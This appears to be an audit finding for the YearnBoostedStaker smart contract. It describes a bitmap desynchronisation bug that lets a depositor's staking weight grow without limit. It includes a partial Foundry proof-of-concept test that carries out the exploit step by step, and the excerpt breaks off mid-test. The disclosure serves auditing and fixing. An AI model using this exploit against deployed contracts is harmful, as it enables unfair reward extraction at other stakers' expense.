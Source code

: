 The `updateWeeksBitmap` is very important as it is used to determine when the deposit was made and how much the `weight` should increase. It needs to be always synced with `accountWeeklyRealized`.

By depositing 0 with week 0 in [`depositAsWeighted()`](https://github.com/wavey0x/yearn-boosted-staker/blob/f0d1833de0530c124dacd1572b3cf401a71702d9/contracts/YearnBoostedStaker.sol#L141) and then depositing an amount `> 0` in [`_deposit()`](https://github.com/wavey0x/yearn-boosted-staker/blob/f0d1833de0530c124dacd1572b3cf401a71702d9/contracts/YearnBoostedStaker.sol#L97) we get the `updateWeeksBitmap` to increment to 1 in the first call and then to 2 in the second call.

The contract now believes we staked last week but our `accountWeeklyRealized` says we deposited this week. This results in the 2 variables to not be synced anymore.

Because of that, the function [`_checkpointAccount`](https://github.com/wavey0x/yearn-boosted-staker/blob/f0d1833de0530c124dacd1572b3cf401a71702d9/contracts/YearnBoostedStaker.sol#L307) will never clear our `pendingWeight` which will lead to our `weight` to keep increasing infinitely week after week.

Here is a POC that shows the attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import "forge-std/Test.sol";
import {YearnBoostedStaker} from "../src/yPrisma.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract LockedPrisma is ERC20 {
    constructor() ERC20("liquid locked prisma", "YPRISMA") {
        _mint(msg.sender, 100_000 ether);
    }
}

contract Test24 is Test {
    function test_infiniteWeightPOC() external {
        ERC20 token = new LockedPrisma(); //ERC20 liquid locked prisma
        YearnBoostedStaker staking = new YearnBoostedStaker(token, 4, block.timestamp, address(this));

        //approve an helper contract, in our case we keep it simple and set the test address
        staking.setWeightedDepositor(address(this), true);
        staking.setApprovedCaller(address(this), true);

        //deposit 0 tokens at idx 0
        staking.depositAsWeighted(address(this), 0, 0);

        //we can notice that the bitmap got incremented to 1 -> 00000001
        (,,,uint8 bitmap) = staking.accountData(address(this));
        assertEq(bitmap, 1);

        //deposit 100 tokens using the normal function now
        token.approve(address(staking), 100 ether);
        staking.deposit(100 ether);

        //we check our bitmap again, it has been incremented to 2 -> 00000010 which means the contract thinks we deposited a week ago
        (,,, bitmap) = staking.accountData(address(this));
        assertEq(bitmap, 2);

        //we skip 4 weeks, our weight should be 50 * 5 like a normal deposit
        skip(4 weeks);
        staking.checkpointAccount(address(this));
        assertEq(staking.getAccountWeight(address(this)), 50 ether * 5);

        //We have an issue tho, the pending balance is still here
        (, uint112 pending,,) = staking.accountData(address(this));
```